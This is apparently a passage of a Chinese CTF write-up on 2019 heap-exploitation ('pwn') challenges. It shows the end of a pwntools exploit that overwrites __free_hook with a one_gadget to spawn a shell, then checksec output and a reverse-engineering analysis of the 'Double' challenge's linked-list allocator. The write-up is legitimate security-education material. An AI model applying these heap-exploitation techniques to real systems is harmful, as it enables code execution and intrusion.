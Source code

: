 ```python
add(0x60, "C" * 0x10) 
add(0x70, "D" * 0x10) # mark in bss
add(0x60, p64(free_hook))

change(8, p64(one_gadget))
free(2)

p.interactive() 
```

## 0x02  Double

### 防护

```
liwc@ubuntu:~/pwn/2019_guosai/Double$ checksec pwn
[*] '/home/liwc/pwn/2019_guosai/Double/pwn'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```

注意部分开启了RELRO，且没有开启PIE。从题目名字推测应该也是用double free。

### 分析

通过逆向，ptr的结构如下：

```c
struct ptr{
  num; 			// + 0x0
  size; 		// + 0x4
  *content; // + 0x8
  *next;    // + 0x10
};
```

#### new

首先malloc一个0x18的chunk，然后用input函数读入chunk的内容，注意当读入0x100个字节而没有\n时，会返回0xff。

然后如果是第一次申请，或者该次与prev_ptr的字符串内容不同时，会根据size+1创建一个malloc一个chunk，然后从栈上拷贝size+1的数据到新创建的堆块中，然后再ptr结构体中设置好size和新chunk的指针。如果head_ptr不为null，会令num= prev_ptr的num+ 1，并且将prev_ptr的next指针设置为当前指针；否则，令num为0，然后令head_ptr = 当前指针。最后，还会令prev_ptr指向当前指针。

如果不是第一次申请，或者该次与prev_ptr的字符串内容相同，那么直接令num++，size = prev_ptr.size，content也指向prev_ptr.content，next = null，然后将prev_ptr的next指针指向当前ptr，最后，令prev_ptr指向当前指针。

由上述分析，我们知道该题是用一个单向链表结构管理堆块的， bss段存储链表的头指针head_ptr和尾指针prev_ptr，每个ptr结构中都存储了next指针，这时我感觉该题应该是要构造类型混淆。另外还有一个点就是如果两次创建相同内容的堆块，则会构造出两个指针指向同一块内存空间。另外，num都是根据prev_ptr判断的。
